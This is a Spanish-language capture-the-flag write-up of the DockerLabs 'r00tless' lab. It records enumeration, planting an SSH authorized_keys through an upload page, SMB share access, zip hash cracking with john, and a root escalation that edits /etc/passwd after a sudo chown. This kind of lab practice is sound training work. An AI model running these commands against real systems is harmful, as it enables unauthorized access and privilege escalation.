 nmap: 80,22,139,445

![[dockerlabs/dificil/r00tless/nmap.png]]

---
en la pagina principal nos da:

![[dockerlabs/dificil/r00tless/pagina1.png]]

hacemos un gobuster:

![[dockerlabs/dificil/r00tless/gobuster.png]]

nos dio upload.php

![[upload.png]]

vuelvo hacer un gobuster pero agrego un .txt

![[readme.png]]

entramos y nos da

![[readme2.png]]

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id_rsa.pub" con el nombre "authorized_keys" y conectarnos sin necesidad de clave, nos faltaría usuarios 

pero podemos enumerar con: 
> enum4linux 172.18.0.2

nos da:
 ![[enum4.png]]
 

creamos un id_rsa 

    ssh-keygen -t rsa -b 4096

![[id_rsa1.png]]

nos dara: id_rsa  id_rsa.pub  

pasamos la clave a un authorized_keys

![[echo.png]]

le damos permisos: 
> chmod 600 id_rsa 

subimos el authorized_keys

![[subida.png]]

ahora en el terminal colocamos: 
>  ssh passsamba@172.18.0.2 -i id_rsa

 estamos dentro

![[dockerlabs/dificil/r00tless/conexion.png]]

al hacer un "ls", nos da esto:
>cat note.txt

![[samba.png]]

por la similitud  con  un nombre de usuario, probamos como contraseña:
> su sambauser / sambaarribasiempre

y ahora somos sambauser

como no hay nada, encontré para ver posibles directorios:

    smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2

![[samba2.png]]

nos dio dos:
> read_only_share

nos conectamos como clientes.

    smbclient //172.18.0.2/read_only_share -U sambauser -W workgroup  

la contraseña es la misma y dentro nos pasamos con get el zip que hay

![[scret.png]]


como pide contraseña la sacamos:

    zip2john secret.zip > hash.txt 
    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
    
> contraseña: qwert

![[dockerlabs/dificil/r00tless/hash.png]]

le colocamos al txt cat y nos da:
> root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==

en la misma terminal colocamos:
> echo "cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==" | base64 -d

nos da la contraseña

![[dockerlabs/dificil/r00tless/zip.png]]

entramos por ssh en una terminal y colocamos la contraseña con el usuario "root-false"

dentro hay un: message.txt que dice:

![[pinguino1.png]]

encontramos esto

![[curl1.png]]

ejecutamos el comando

     curl -vvv -d 'username=mario&password=pinguinodemarioelmejor' http://10.10.11.5

lo que lanzamos es lo del mensaje que vimos 

![[curl3.png]]

lanzamos:

     curl -vvv http://10.10.11.5/super_secure_page/admin.php/

si se hace un: curl -v 10.10.11.5
nos mostrara código de una pagina que contiene un login en el puerto 80

hacemos este comando: 
> ssh root-false@172.18.0.2 -L 9090:10.10.11.5:80

y nos conectaremos otra vez

![[dockerlabs/dificil/r00tless/conexion2.png]]

nos vamos a firefox y buscamos esto:
> http://127.0.0.1:9090/

no me funciono pero del codigo anterior vi un "ultramegatexto.txt", lanzamos el siguiente comando

    curl http://10.10.11.5/ultramegatextosecret.txt


nos dio:

![[ultra.png]]

nos dará la pagina de login - admin
en el texto hay parte que me llamo la atención que parece contraseña que dice:
> Cristal_de_la_Aurora

la probamos en el usuario less que sale al final del texto.
y somos el usuario less 
al hacer sudo -l nos da: chown

![[conexion3.png]]

buscando encontré que podemos cambiar al propietario de la carpeta /etc/passwd
con este comando: 

    sudo chown less:less /etc/passwd

ahora hacemos un:

    nano /etc/passwd

![[Pasted image 20250115194824.png]]

![[dockerlabs/dificil/r00tless/cat.png]]

le quitamos la "x" a root 
guardamos y ejecutamos

![[dockerlabs/dificil/r00tless/root.png]]

su root
somos root! 